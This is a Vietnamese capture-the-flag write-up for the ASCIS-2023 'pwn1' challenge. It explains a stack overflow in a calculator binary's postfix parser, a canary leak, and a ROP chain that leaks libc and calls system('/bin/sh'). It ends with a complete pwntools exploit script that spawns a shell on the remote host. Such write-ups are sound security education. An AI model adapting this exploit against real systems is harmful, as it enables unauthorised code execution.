# pwn1

- Password: ASCIS2023

> Quals ASCIS-2023

## [0]. Analysis Challenge

- Kiểm tra các thông tin cơ bản của file binary, có vài điểm cần lưu ý đó là file đã bị stripped nên tên các hàm đã bị xóa khỏi file thực thi và stack có canary (điều này sẽ làm quá trình khai thác khó hơn).



- Chương trình cho phép người dùng nhập các biểu thức tính toán và in kết quả ra màn hình.



- Hàm `main()` chạy logic `while loop` đọc chuỗi ký tự vào biến `buf[152]`, sau đó gọi hàm `fn_handle_expression()` [hàm gốc là `sub_400E91()`] để xử lý biến `buf[152]`.





- Hàm `fn_handle_expression()` với 1 đối số là mảng `buf[152]` thực hiện ba nhiệm vụ chính sau:

  - `1.` Đầu tiên là cấp phát 1 vùng nhớ trong heap, ngay sau đó là nó sẽ parse dữ liệu từ mảng `char buf[152]` sang mảng `__int64 v8[24]` trên stack.
  - `2.` Tiếp theo là chương trình sẽ thực hiện logic `while do` để chuyển đổi biểu thức lưu ở `__int64 v8[24]` sau bước 1 về dạng biểu thức hậu tố - `postfix` và lưu vào chính mảng `__int64 v8[24]`.
  - `3.` Cuối cùng là gọi hàm tính toán `fn_eval_400D18()` và in kết quả ra màn hình.

- Chương trình còn có 1 structure hoạt động như `stack` (`heap_stck`), được cấp phát ở vùng nhớ heap tại bước 1, có nhiệm vụ lưu các toán tử trong quá trình chuyển sang `postfix` và phục vụ tính toán trong hàm `fn_eval_400D18()`.

> Bug

- Lỗ hổng nằm ở bước 2 trong luồng thực thi của hàm `fn_handle_expression()` khi chương trình parse giá trị từ mảng `char buf[152]` sang mảng `__int64 v8[24]` không có giới hạn về số lượng ký tự mà còn mỗi ký tự của `char buf[152]` VD như `1` sẽ chuyển vào thành 1 phần tử chiếm `__int64`, điều này dẫn đến stack-bufferoverflow. Tham khảo hai ảnh VD dưới đây để hiểu hơn lỗ hổng:





- Ví dụ về biến đổi biểu thước về dạng biểu thức hậu tố:
  - Biểu thức hậu tố là cách lưu trữ biểu thức ban đầu để máy tính tính toán thuận lợi hơn theo quy tắc một toán tử sẽ đi kèm ngay sau hai toán hạng. Với biểu thức `a+b*c+d`, dạng biểu thức hậu tố của nó sẽ là `abc*+d+`. Thứ tự thực hiện phép tính sẽ như sau: Tính `e = b*c`, biểu thức mới có dạng `ae+d+`.

## [1]. Solve Idea

### I. Leak Stack Canary

- Để leak được canary người chơi cần cung cấp 1 biểu thức sao cho giá trị của canary được thêm vào biểu thức cần tính toán và in ra màn hình, cần phải căn chỉnh layout stack sao cho canary nằm đúng vị trí ban đầu sau khi chuyển sang dạng postfix.

- Dùng biểu thức `1+1+1+...+1+41` với ý tưởng sau: `41` là mã ascii của kí tự `(`, khi chương trình kiểm tra không phân biệt được chữ số thực sự và kí tự toán tử nên pop 1 toán tử ra và đẩy canary về đúng vị trí.



- Sau khi biến đổi biểu thức hậu tố (postfix):



### II. Leak LIBC address

- Sau khi có `canary` tôi khôi phục nó ở lần nhập biểu thức tiếp theo, sau đó `overflow` địa chỉ trả về và build 1 cái `ROP chain` để gọi `puts(printf@GOT)`.

- Tôi làm các `gadgets` nằm sát nhau theo quy tắc của biểu thức `postfix` bằng cách xây dựng biểu thức kiểu `<pad>+(gadget_1+(gadget_2+(gadget_3` và in địa chỉ `printf` ra màn hình xong thì trả về `main`.

- `Vấn đề 1`: Sau khi gọi `main()` lần thứ 2, tôi gặp một vấn đề khác. Trong hàm `eval()`, chương trình chỉ cấp phát `0x8` bytes cho `heap_stack` (được làm tròn thành `0x20` trong bộ nhớ).

  - Cho nên khi các toán tử được `push` vào `stack`, gây tràn `heap` và ghi đè `size` của `top chunk`, dẫn đến lỗi `corrupted top size` khi gọi `malloc` và ngắt chương trình.
  - Để khắc phục lỗi này tôi cần phải khôi phục lại `top chunk size` bị ghi đè.
    

- `Vấn đề 2`: Phần này gây cho tôi rất nhiều khó khăn vì nếu nhập một biểu thức quá nhiều toán tử và toán hạng, cấu trúc stack `__int64 v8[24]` trong `fn_handle_expression()` sẽ tràn đến chuỗi biểu thức `char buf[152]` trong `main()` khi hàm `fn_parse()` đang thực thi. Việc này làm `fn_parse()` không thể tiếp tục trích xuất biểu thức và ngắt chương trình.

  - Trước khi `parse` chạy:
    

  - Sau khi biểu thức bị ghi đè, không thể tiếp tục trích xuất biểu thức:
    

- Sau khi thử nhiều cách khác nhau, tôi `bypass` được phần này với payload như sau:

```python
<padding>+(canary+(pad+(top_size+(pad+(pop_rdi+(printf_got+\x00\x00\x00 + p64(puts_plt) + p64(main)
```

- Theo quy tắc khi parse biểu thức thành dạng biểu thức hậu tố - `postfix`, các ô nhớ phía sau không thuộc biểu thức được đẩy về phía trước và các toán tử được dồn về sau.

- Khi nhập payload như trên, biểu thức kết thúc ở `"printf_got+"` và `2 gadget` cuối cùng được ghi thẳng vào bộ nhớ (`buffer` trong `main`). Chuổi biểu thức và `2 gadget` được căn chỉnh sao cho đúng với `layout stack` và nằm kế nhau khi chuyển sang dạng biểu thức `postfix`.

- Làm như vậy tôi có thể thêm `gadget` vào `ROPchain` mà không phải lo chuổi biểu thức bị ghi đè.

### III. Get Shell

- Sau khi xử lý dược 2 vấn đề ở trên, tôi có thể gọi `system('/bin/sh')` để lấy shell.

- Full script exploit: [exp.py](./exp.py)

- Script exploit khác có thể tham khảo:

```python
from pwn import *
import sys
elf = context.binary = ELF('pwn2')
libc = ELF('libc.so.6')
#nc 172.188.64.101 1337
p = remote('172.16.0.250', sys.argv[1])
#p = process()
#gdb.attach(p, gdbscript='''#       b *0x400d18
#           b *0x4011db#               c
#           ''')
POP_RSI_R15 = 0x0000000000401341 #: pop rsi ; pop r15 ; retCALL_REGS = 0x401320
POP_RBX_RBP_R12_R13_R14_R15 = 0x40133a
MOV_PRDX_RAX = 0x00000000004008f3 #: mov qword ptr [rdx], rax ; nop ; pop rbp ; ret
POP4 = 0x40133c
MAIN = 0X40121f

# leak canary
p.sendline(b'(10000000+10000000+10000000+10000000+10000000+10000000+10000000+10000000+10000000+10000000)+')
recv = p.recvline()[:-1].decode()
print(recv)
if recv[0] == '-':
    recv = recv[1:]
    print(recv)
canary = int(recv)
log.info(f'canary: {hex(canary)}')

# leak libc
RET = 0x0000000000400646
BSS = 0x602500
LEAVE = 0x0000000000400836
LOOP = 0X400E91
rop = ROP(elf)
rop.raw(RET)
rop.printf(elf.got['printf'])
raw_rop = rop.chain()
payload = b'1+1+1+1+1+1+1+1+1+1+1+'
payload += str(canary).encode()
payload += b'+1+'
payload += str(POP_RBX_RBP_R12_R13_R14_R15).encode()
payload += b'+' + str(elf.got['exit'] + 0xa0).encode()
payload += b'+0'
payload += b'+' + str(POP4).encode()
payload += b'\x00'*(8 - (len(payload) % 8))
payload += raw_rop
payload += p64(RET)
payload += p64(MAIN)
print('len: ', hex(len(payload)))
print(payload)
p.sendline(payload)
p.recvline()
leak = p.recv(8)
leak = int.from_bytes(leak, byteorder='little')
print('leak: ', hex(leak))
libc.address = leak - libc.symbols['printf']
print('libc: ', hex(libc.address))
roplibc = ROP(libc)
roplibc.system(next(libc.search(b'/bin/sh')))

# get shell
payload = b'1+1+1+1+1+1+1+1+1+1+1+'
payload += str(canary).encode()
payload += b'+1+'
payload += str(POP_RBX_RBP_R12_R13_R14_R15).encode()
payload += b'+' + str(elf.got['exit'] + 0xa0).encode()
payload += b'+0'
payload += b'+' + str(POP4).encode()
payload += b'\x00'*(8 - (len(payload) % 8))
payload += p64(RET)
payload += roplibc.chain()
p.sendline(payload)
p.sendline(b'cat /home/pwn2/flag.txt')
p.interactive()
```

## [2]. References

- https://gossamer-drill-b15.notion.site/Pwn4-87fcde5215fe447691dfa32360d4e606
